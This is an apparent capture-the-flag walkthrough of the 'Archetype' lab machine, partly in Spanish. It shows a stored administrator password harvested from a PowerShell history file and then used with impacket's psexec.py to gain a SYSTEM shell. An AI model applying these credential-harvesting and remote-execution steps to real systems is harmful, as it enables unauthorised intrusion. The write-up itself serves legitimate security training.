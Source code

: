 ����������͹ Analyzing Other Windows Files Files (limit 70)



 Directory of c:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine

01/20/2020  06:04 AM    <DIR>          .
01/20/2020  06:04 AM    <DIR>          ..
03/17/2020  02:36 AM                79 ConsoleHost_history.txt
               1 File(s)             79 bytes
               2 Dir(s)  10,713,747,456 bytes free

c:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine>type ConsoleHost_history.txt
type ConsoleHost_history.txt
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit

c:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine>

--------------------------------------------------------------------------

Escalada privilegios:
---------------------

┌──(kali㉿kali)-[/usr/share/doc/python3-impacket/examples]
└─$ python3 psexec.py administrator:@archetype 
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

Password:
[*] Requesting shares on archetype.....
[*] Found writable share ADMIN$
[*] Uploading file cjAYziEH.exe
[*] Opening SVCManager on archetype.....
[*] Creating service Pavo on archetype.....
[*] Starting service Pavo.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2061]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> cd c:\users\Administrator
 
c:\Users\Administrator> dir
 Volume in drive C has no label.
 Volume Serial Number is 9565-0B4F

 Directory of c:\Users\Administrator

01/19/2020  11:39 PM    <DIR>          .
01/19/2020  11:39 PM    <DIR>          ..
07/27/2021  02:30 AM    <DIR>          3D Objects
07/27/2021  02:30 AM    <DIR>          Contacts
07/27/2021  02:30 AM    <DIR>          Desktop
07/27/2021  02:30 AM    <DIR>          Documents
07/27/2021  02:30 AM    <DIR>          Downloads
07/27/2021  02:30 AM    <DIR>          Favorites
07/27/2021  02:30 AM    <DIR>          Links
07/27/2021  02:30 AM    <DIR>          Music
07/27/2021  02:30 AM    <DIR>          Pictures
07/27/2021  02:30 AM    <DIR>          Saved Games
07/27/2021  02:30 AM    <DIR>          Searches
07/27/2021  02:30 AM    <DIR>          Videos
               0 File(s)              0 bytes
              14 Dir(s)  10,712,395,776 bytes free
